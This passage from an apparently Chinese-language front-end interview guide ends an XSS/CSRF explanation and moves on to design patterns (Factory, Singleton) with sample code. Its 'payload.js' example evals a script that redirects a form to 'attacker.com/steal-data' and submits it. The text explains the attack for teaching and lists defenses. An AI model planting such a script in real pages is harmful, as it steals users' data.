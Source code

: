 ```html
</html>
```

```javascript
// payload.js
const maliciousScript = `
  const form = document.getElementById('csrfForm');
  form.action = 'http://attacker.com/steal-data';
  form.submit();
`
// document.getElementById('content').innerHTML = maliciousScript
eval(maliciousScript)
```

在上述示例中，恶意脚本`payload.js`被执行。该脚本修改了表单`csrfForm`的目标地址为攻击者控制的服务器，并提交表单。当用户点击"Transfer"按钮时，实际上会向攻击者服务器发送用户的敏感数据。

请注意，以上示例仅为了说明XSS攻击和CSRF攻击的原理，并非真实的攻击代码。在实际开发中，应该采取相应的防护措施来预防这些安全威胁，如输入验证、输出编码、使用CSRF令牌等。

## 12. 用过哪些设计模式？

当被问到你用过哪些设计模式时，你可以列举出你在前端开发中常使用的设计模式。以下是几个常见的设计模式，以及它们的优缺点、适用场景和示例代码：

**1. 工厂模式（Factory Pattern）：**

- 优点：封装了对象的创建过程，降低了耦合性，提供了灵活性和可扩展性。
- 缺点：增加了代码的复杂性，需要创建工厂类。
- 适用场景：当需要根据不同条件创建不同对象时，或者需要隐藏对象创建的细节时，可以使用工厂模式。

```javascript
class Button {
  constructor(text) {
    this.text = text
  }
  render() {
    console.log(`Rendering button with text: ${this.text}`)
  }
}

class ButtonFactory {
  createButton(text) {
    return new Button(text)
  }
}

const factory = new ButtonFactory()
const button = factory.createButton('Submit')
button.render() // Output: Rendering button with text: Submit
```

**2. 单例模式（Singleton Pattern）：**

- 优点：确保一个类只有一个实例，节省系统资源，提供全局访问点。
- 缺点：可能引入全局状态，不利于扩展和测试。
- 适用场景：当需要全局唯一的对象实例时，例如日志记录器、全局配置对象等，可以使用单例模式。
